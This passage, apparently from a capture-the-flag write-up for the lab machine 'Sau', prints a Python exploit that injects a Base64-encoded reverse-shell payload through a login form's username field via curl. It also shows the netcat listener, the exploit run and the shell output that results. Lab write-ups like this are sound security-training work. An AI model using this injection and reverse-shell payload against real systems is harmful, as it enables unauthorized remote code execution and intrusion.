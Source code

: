 ```python
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Looking through the exploit, we can understand that this service is vulnerable to "Remote Code Execution (RCE)". We can just create a payload and send it encoded in a `curl` request through the `username` parameter. Pretty simple. Let's test it.

On the attacker machine we set a `Netcat` listener on some port.
```bash
nc -lnvp 13337
listening on [any] 13337 ...
```

Running the exploit, using the crafted web hook url that we created.
```bash
./exploit.py 10.10.14.12 13337 http://sau.htb:55555/stl44dl
Running exploit on http://sau.htb:55555/stl44dl/login
```

We got a Reverse Shell connection!
```bash
listening on [any] 13337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.224] 56134
$ whoami
whoami
puma
$ id     
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ uname -a
uname -a
Linux sau 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
$ python3 --version
python3 --version
Python 3.8.10
```
